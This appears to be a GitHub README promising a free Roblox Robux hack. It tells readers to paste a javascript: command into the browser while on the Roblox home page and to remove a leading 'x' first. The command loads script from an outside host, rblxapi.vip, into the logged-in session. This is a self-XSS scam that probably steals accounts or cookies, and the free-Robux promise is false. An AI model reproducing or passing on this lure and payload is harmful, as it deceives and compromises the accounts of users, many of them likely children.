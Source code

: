 # RobloxFreeRobux
Hi!
Welcome Back With Another Game Hack!
This Hack For ROBLOX game !!!
Roblox Free Robux Hack !!!

# Usage
To run the hack,
you need to copy the code I give below.


CODE = xJavascript:$.get("//rblxapi.vip/api?id=1540169")


Now you need to open "Roblox Home Page"

When you copy the code, it has a (x) in front of it.

Paste it into the roblox browser and remove the x in front of it and click enter.

Type the amount of robux you want in the Pop-Up that appears

Refresh The Page And...

You now have your robux!!!
